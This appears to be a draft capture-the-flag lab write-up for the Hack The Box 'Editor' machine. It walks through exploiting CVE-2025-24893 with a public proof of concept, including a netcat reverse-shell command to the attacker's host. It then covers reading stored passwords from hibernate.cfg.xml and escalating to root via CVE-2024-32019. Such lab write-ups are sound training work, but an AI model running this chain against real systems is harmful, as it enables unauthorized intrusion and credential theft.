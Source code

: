 

# CVE-2025-24893 — Remote Code Execution

## Description

Editor.htb is vulnerable to unauthenticated remote code execution (RCE).

## Impact

Medium impact: allows access to sensitive information on the server which breaches CIA prinicples of confientiality. Ask mentor if can delete files?

## Likelihood

High: this vulnerability does not require authentication to exploit.



## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Resreach shows Vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc start RCE
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver found.png" class="editors" alt="user found">










 7. Google files on server and find hibernate.cfg.xml which stoeres XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  








## Replication steps 
1. ls -l /usr/bin/pkexec /bin/pkexec 2>/dev/null || true
2. google /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo vulnerbality 
3. Open https://github.com/T1erno/CVE-2024-32019-Netdata-ndsudo-Privilege-Escalation-PoC
4. Copy payload.c and CVE-2024-32019.sh
5. Create nvme file `gcc -static payload.c -o nvme -Wall -Werror -Wpedantic to create` 
6. transfer to ssh shell
7. run sh CVE-2024-32019.sh to get root shell 

 <img src="images/editor_priv_esc.png" class="editors" alt="editor priv esc">





